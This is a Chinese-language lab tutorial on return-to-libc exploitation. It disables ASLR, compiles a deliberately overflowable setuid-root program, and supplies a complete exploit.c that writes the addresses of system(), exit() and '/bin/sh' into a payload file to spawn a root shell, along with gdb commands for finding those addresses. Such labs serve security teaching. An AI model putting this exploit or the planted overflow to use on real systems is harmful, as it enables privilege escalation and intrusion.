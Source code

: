 # Return to libc攻击

成功的前提是要关闭一些保护机制

* 地址随机化 `sudo sysctl -w kernel.randomize_va_space = 0`
* 栈保护机制`gcc -fno-stack-protector ****.c`
* 栈不可执行`gcc -z execstack ****.c`



## 0x01 关闭系统的地址随机化

```shell
sudo sysctl -w kernel.randomize_va_space=0
```

![image-20210503122809632](C:\Users\anxin\AppData\Roaming\Typora\typora-user-images\image-20210503122809632.png)

## 0x02 准备好漏洞程序源码

1. `retlib.c`

2. `exploit.c`

   

漏洞程序源码`retlib.c`

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int bof(FILE *badfile)
{
    char buffer[12];
    
    fread(buffer, sizeof(char), 40, badfile);
    
    return 1;
}

int main(int argc, char **argv)
{
    FILE *badfile;
    
    badfile = fopen("badfile", "r");
    bof(badfile);
    
    printf("Returned Properly\n");
    
    fclose(badfile);
    
    return 1;
}
```

在`root`环境下编译

```shell
sudo su
gcc -m32 -fno-stack-protector -z noexecstack -o retlib retlib.c
chmod 4755 retlib
exit
```

`exploit.c`利用脚本(三个地址需要重新计算，后面给出方法)

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv) {
    char buf[40];
    FILE *badfile;
    int base = 24;
    badfile = fopen("./badfile", "w");
    
    /*
    caculate address
    */
    *(long *) &buf[base+8] = 0xb7f7ff18;	// "/bin/sh"
    *(long *) &buf[base] = 0xb7e5e430;		// system()
    *(long *) &buf[base+4] = 0xb7e51fb0;	// exit()
    
    fwrite(buf, sizeof(buf), 1, badfile);
    fclose(badfile);
}
```

编译运行`expliot`生成恶意`badfile`

```shell
gcc exploit.c -o exploit
./exploit
```

再次执行`retlib`

```shell
./retlib
```

成功结果如下

![image-20210503124833917](C:\Users\anxin\AppData\Roaming\Typora\typora-user-images\image-20210503124833917.png)



## 0x03三个地址的获取

#### 1. 获取`system`和`exit`函数的地址

> system， exit函数都在`libc`中，动态链接库在内存中

```shell
b main
r
p system
p exit
p __libc_start_main
```

![image-20210503124202705](C:\Users\anxin\AppData\Roaming\Typora\typora-user-images\image-20210503124202705.png)

#### 2. 获取内存中字符串`"/bin/sh"`的地址

可以使用`gdb`的`find` 命令

这里使用`peda` 插件的命令

```shell
searchmem "/bin/sh" libc
```

![image-20210503124532721](C:\Users\anxin\AppData\Roaming\Typora\typora-user-images\image-20210503124532721.png)






